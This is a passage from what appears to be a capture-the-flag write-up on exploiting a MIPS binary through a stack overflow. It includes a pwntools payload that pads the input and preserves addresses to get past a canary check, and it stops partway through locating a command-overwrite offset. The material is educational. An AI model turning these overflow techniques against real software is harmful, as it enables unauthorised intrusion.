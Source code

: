 even though I'm not sure at the cause, my intuition says it's because GP needs to also be a pointer since deriving from the register's name, it's probably not a general purpose register. and since we know the value of GP is directly controlled by our input, to fix this I decided just to give it similar address right before it and it worked. so now our payload goes something like this:

```python
    io.sendlineafter(b'Username:', b'devolper')
    payload = cyclic(44)
    payload += flat([
            0x400b0c,       # preserve `rip` to bypass canary check
            p32(0x1) * 5,   # random val for fuzz
            0x4aa330,       # preserve some value
            p32(0x4aa330),  # preserve some value
            0x4721c8,       # preserve some value
            p32(0x3) * 2,   # random val for fuzz
            0x400b0c,       # preserve some value
    ]) 
    payload +=  cyclic(300)
    sleep(0.2)
    io.sendline(payload)
```

to count the offset to overwrite command, I set another breakpoint here at this `jalr` instruction (which sound like a jump)

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

and here's in GDB
